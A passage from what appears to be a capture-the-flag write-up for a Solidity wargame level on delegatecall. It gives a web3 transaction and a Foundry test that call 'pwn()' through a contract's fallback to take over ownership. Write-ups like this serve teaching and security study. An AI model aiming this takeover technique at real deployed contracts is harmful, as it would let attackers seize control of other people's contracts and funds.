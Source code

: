 ```solidity
sendTransaction({ 
    to: contract.address, 
    data: web3.eth.abi.encodeFunctionSignature("pwn()"), 
    from: hackerAddress
 })
```



<br>



----

### solution in solidity

<br>

* check `test/06/Delegation.t.sol`:

<br>

```solidity
contract DelegationTest is Test {

    Delegate public delegate = new Delegate(makeAddr("owner"));
    Delegation public level = new Delegation(address(delegate));

    address instance = vm.addr(0x10053); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {
        vm.prank(instance);
    }

    function testDelegationHack() public {

        vm.startPrank(hacker);
        assertNotEq(level.owner(), hacker);

        (bool success, ) = address(level).call(
            abi.encodeWithSignature("pwn()")
        );
        assertTrue(success);
        assertEq(level.owner(), hacker);

        vm.stopPrank();
        
    }
}
```

<br>

* run:
